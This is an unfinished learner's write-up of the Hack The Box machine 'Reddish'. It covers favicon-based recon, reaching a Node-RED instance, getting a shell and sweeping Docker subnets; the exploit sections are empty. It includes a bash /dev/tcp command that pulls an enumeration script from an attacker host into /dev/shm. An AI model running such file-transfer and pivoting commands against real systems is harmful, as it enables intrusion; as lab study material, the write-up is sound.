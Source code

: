 # Reddish
Name: Reddish
Date:  
Difficulty:  Insane
Goals:  To practice:
- different ways pivot 
- Linux related machines 
- not done one recently 
- database hacking
Learnt:
1. I need to try switching more Web Requests
2. TCP reply not listen back on shell...
3. cat file transfer

## Recon

![ping](Screenshots/ping.png)

I want to note some of the differences to mine and Ippsec's more efficient Recon, although its is a scripted video it is still someone else approach to Web Hacking to assimilate to my own.


Firstly Icons favicons, in the Haddix Bug Bounty Hunter Methodology and on serveral podcast Haddix mentions a friend whom had a expertise in favicon abuse. 

From the icon, reverse image searches - a reason to use google more then identifies the RedNode Application.

I feroxbuster and then tried the /red/about directory and got this post request :
This is such a weird request to me

![](weirdtokenrequest.png)

to get the About.html, grepping for `red`
![](greppingtheabout.png)`

Reveal node-red...

I still think the favicon is cooler, but I a happy that I am improving my searching or dorking ability somewhat as I have be worrying I am too meticulious or no where near enough to get anywhere. **BUT**

I would have notice the key, but not found it.. I know 

![posting](ippsecposts.png)

`ab68fb463e681b499d99226ce92e12e9`

[Node-RED](https://nodered.org/about/)is a program tools visually displaying and interactable function of a program in chart


![](no-exploits.png)

This section was a real hammer home of the, how can I achieve my objective with what is in front of me. I think I have been concern about learning about and I will endeavour to try more boxes like this, I remember there is some proving ground boxes that are more like this.

![nodered](NODE-red.png)

TCP reply to!

![shell](shell.png)

Even though I like ncat and netcat, I am glad to finally be prompted to use it as a file transfer mechanism instead of other tools. Similar to trying out powercat it felt fun, but also gratting a tad as I always see it on Enumeration Script scans after I run it.. but I don't check its there before file transfering.

WOW on the cat file transfer, I have not seen this on any OSCP cheatsheets!
```bash
bash -c "cat < /dev/tcp/$IP/$PORT> /dev/shm/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

LinEnum finds Docker
![docker](weareindocker.png)

Although it is not mentioned a good thing to then check with Docker would be IP address as it is may have its own routing configuration to the host box.
![docker](dockerips.png)


```bash
for ip in $(seq 1 5); do
	ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"
	done
```
Oneliner
``
`for ip in $(seq 1 5); do ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`
`for ip in $(seq 1 5); do ping -c 1 172.19.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`

$1 = Gateway
try 2!
$3 = possibly other containers
19:45
https://www.youtube.com/watch?v=Yp4oxoQIBAM

## Exploit

## Foothold

## PrivEsc

      
